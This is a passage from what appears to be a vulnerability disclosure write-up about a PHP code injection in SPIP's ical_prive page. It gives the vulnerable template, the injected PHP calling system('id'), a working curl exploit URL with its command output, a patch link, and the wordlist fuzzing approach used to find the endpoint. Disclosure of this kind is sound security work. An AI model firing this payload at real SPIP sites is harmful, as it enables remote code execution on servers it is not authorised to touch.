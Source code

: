 ```php
DTSTAMP:[(#DATE_HEURE|date_ical)]
DTSTART:[(#DATE_HEURE|date_ical)]
CATEGORIES:<:info_message_2|filtrer_ical:>
URL:[(#URL_ECRIRE*{message, id_message=#ID_MESSAGE})]
<BOUCLE_message_n_a(AUTEURS auteurs_messages){lang_select=non}{id_message}>[(#ID_AUTEUR
|=={#ENV{id_auteur}}|?{ORGANIZER,ATTENDEE})]:[(#NOM|filtrer_ical)][ <(#EMAIL|filtrer_ical)>]
</BOUCLE_message_n_a>END:VTODO</BOUCLE_message_n>
<?php
	if ('#0:STATUT' == '0minirezo') {           // Injection here
?><BOUCLE_forum(FORUMS?){par date}{inverse}{tout}{statut="prop"}>
--[SNIP]--
```

Once rendered, the template gave the following php code:

```php
--[SNIP]--
<?php
if ('[(#ID_AUTEUR|securiser_acces{#ENV{arg},ical})]' OR '[(#ID|securiser_acces{#ENV{cle},ical})]') {
	if (''=='foo'){
        echo(42);
    }
} else {
    system('id');
};
if(false){if('foo' == '0minirezo') {
--[SNIP]--
```

What can be seen here is that this injection is powerful enough so we can bypass the `securiser_acces` check by closing the initial if statement and appending our payload after all the security checks failed!

```bash
curl -gsk "http://127.0.0.1/spip.php?page=ical_prive&statut=%27%3D%3D%27foo%27%29%7Becho%2842%29%3B%7D%3B%7Delse%7Bsystem%28%27id%27%29%3B%7D%3Bif%28false%29%7Bif%28%27foo" | grep uid=
# }?></BOUCLE0><BOUCLE0(AUTEURS){tout}{id_auteur}{lang_select}>uid=1000(user) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),998(docker)
```

Patch: https://github.com/spip/SPIP/commit/71a7d1353ae8ff8335db4051df922276109a4a62

I'm not sure about its current exploitability, the Spip team says it's safe now, I took their word and did not spend more time on it.

It is to note that this endpoint is visible from the admin/author interface, but it's not referenced without authentication. Moreover, for some reasons it wasn't catched by my numerous crawls. I found it while being logged-out, with a custom wordlist of every existing file (`find . -type f -iname "*.php"`) and every word (`grep -hrioP '[a-zA-Z0-9_]+' | sort -uV -o spip-words.lst`) I could find in the repo matched against the main parameters of this application (extracted with my crawler). The wordlist was generated with the source of the website after some time being in use to take into account custom content, user-related dynamically generated variables, end cache-files written to disk.
